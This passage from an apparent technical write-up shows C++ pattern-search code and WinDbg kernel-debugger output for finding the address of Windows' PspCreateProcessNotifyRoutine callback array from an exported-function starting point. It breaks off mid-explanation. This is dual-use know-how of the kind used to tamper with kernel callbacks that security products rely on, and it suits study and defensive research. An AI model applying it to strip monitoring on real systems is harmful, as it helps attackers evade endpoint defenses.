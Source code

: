 	//the address returned by the patternsearch is just below the offsets. 
	DWORD64 patternaddress = PatternSearch(IoDeleteSymbolicLink, RtlDestroyHeap, offsets.process);
	Log("[+] patternaddress: %p", patternaddress);

	DWORD offset;

	BOOL b = this->objMemHandler->VirtualRead(
		(DWORD64)patternaddress - <mark>0x0f</mark>,
		&offset,
		sizeof(offset)
	);

	//so we take the 64 bit address, but have a 32 bit addition. To prevent overflow, we grab the first half (shift right, shift left), then add the 32bit DWORD patternaddress with the 32bit offset, and subtract 8. *cringe*
	DWORD64 PspCreateProcessNotifyRoutineAddress = (((patternaddress) >> 32) << 32) + ((DWORD)(patternaddress)+offset) - <mark>0x0f</mark> + 0x04;
  ....................
}
</pre>

Looking at this piece of code, we will see that after the byte search we will get the patternaddress which will be pointing to the xor command `fffff800a4e6201a`.
We need to substract from it an offset to make it point to the 4-byte relative offset of the array which is `712a4a00` in reverse at `fffff800a4e6200b`.

<pre>
lkd> dd fffff800`a4e6200b L1
fffff800`a4e6200b  004a2a71
</pre>

so we need to substract `0xf` from the pattern address.

<pre>
lkd> dd fffff800`a4e6200b L1
fffff800`a4e6200b  004a2a71
lkd> ? fffff800`a4e6201a - fffff800`a4e6200b
Evaluate expression: 15 = 00000000`0000000f
</pre>

### Fixing the functions
`nt!PspSetCreateProcessNotifyRoutine` is not an exported function, so we cannot get the address of the function directly in our c code.
We need to start the byte search using a function that is exported and close to `nt!PspSetCreateProcessNotifyRoutine`.

the functions needs to be exported to be able to use GetProcAddress and GetModuleHandle on them and get the function address.

So To find the closest exported functions (start and end) to use in our code as a starting point for the byte search, we can use IDA.

First let's get the offset to the function from the nt base

<pre>
lkd> ? nt!PspSetCreateProcessNotifyRoutine - nt
Evaluate expression: 8499848 = <mark>00000000`00a61fd0</mark>
</pre>
